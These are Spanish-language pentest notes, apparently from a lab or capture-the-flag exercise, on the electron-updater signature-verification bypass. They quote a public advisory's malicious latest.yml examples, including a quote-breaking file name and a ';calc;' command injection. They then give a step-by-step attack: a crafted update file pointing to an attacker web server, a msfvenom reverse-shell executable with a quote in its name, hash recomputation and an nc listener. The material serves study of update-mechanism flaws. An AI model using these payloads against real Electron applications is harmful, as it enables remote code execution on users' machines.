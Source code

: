 https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html

Dado que la variable $ {tempUpdateFile} se proporciona sin escape a la utilidad execFile, un atacante podría omitir toda la verificación de la firma activando un error de análisis en el script. Esto se puede lograr fácilmente usando un nombre de archivo que contenga una comilla simple y luego recalculando el hash del archivo para que coincida con el binario proporcionado por el atacante (usando shasum -a 512 maliciosoupdate.exe | cut -d "" -f1 | xxd -r -p | base64).

Por ejemplo, una definición de actualización maliciosa se vería así:

```
version: 1.2.3
files:
  - url: v’ulnerable-app-setup-1.2.3.exe
  sha512: GIh9UnKyCaPQ7ccX0MDL10UxPAAZ[...]tkYPEvMxDWgNkb8tPCNZLTbKWcDEOJzfA==
  size: 44653912
path: v'ulnerable-app-1.2.3.exe
sha512: GIh9UnKyCaPQ7ccX0MDL10UxPAAZr1[...]ZrR5X1kb8tPCNZLTbKWcDEOJzfA==
releaseDate: '2019-11-20T11:17:02.627Z'
```

Al entregar un archivo latest.yml similar a una aplicación Electron vulnerable, el ejecutable de instalación elegido por el atacante se ejecutará sin advertencias. Alternativamente, pueden aprovechar la falta de escape para realizar una inyección de comando trivial:

```
version: 1.2.3
files:
  - url: v';calc;'ulnerable-app-setup-1.2.3.exe
  sha512: GIh9UnKyCaPQ7ccX0MDL10UxPAAZ[...]tkYPEvMxDWgNkb8tPCNZLTbKWcDEOJzfA==
  size: 44653912
path: v';calc;'ulnerable-app-1.2.3.exe
sha512: GIh9UnKyCaPQ7ccX0MDL10UxPAAZr1[...]ZrR5X1kb8tPCNZLTbKWcDEOJzfA==
releaseDate: '2019-11-20T11:17:02.627Z'
```

Desde el punto de vista de un atacante, sería más práctico hacer una puerta trasera al instalador y luego aprovechar las funciones preexistentes del actualizador electrónico como isAdminRightsRequired para ejecutar el instalador con privilegios de administrador.

** Ataque sobre Electro-Builder **
* Primera prueba- Ejecución de comandos.
	Tomamos como ejemplo que en la máquina objetivo tenemos acceso a subir un fichero "latest.yml" que utilizará la aplicación Electro-Builder para actualizar de forma remota la aplicación.
	Creamos un fichero "latest.yml":
	```
	version: 1.2.3
	path: http://10.10.14.20/test
	sha512: <cualquier SHA512>
	```
	Levantamos un servidor web en espera de alguna conexión http --> `python -m SimpleHTTPServer 80`
	Obtenemos una petición web.
	
* Segunda prueba - Reverse shell.
	Cremos un payload con una reverse shell con msfvenom con un binario .exe
	`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.20 LPORT=443 -f exe -o r'everse.exe`
	Es importante que el nombre del archivo incluya la comilla, ya que en el código se utilizan comillas simples y así escapamos del contexto de las comillas y provocamos que se ejecute el binario.
	Modificamos el fichero "latest.yml":
	```
	version: 1.2.3
	path: http://10.10.14.20/r'everse.exe
	sha512: <SHA512_computado_para_r'everse.exe>
	```
	Para computar el binario --> `sha512sum r'everse.exe`
	Abrimos un puerto en escucha de peticiones --> `rlwrap nc -nlvp 443`
	Obtenemos una reverse shell.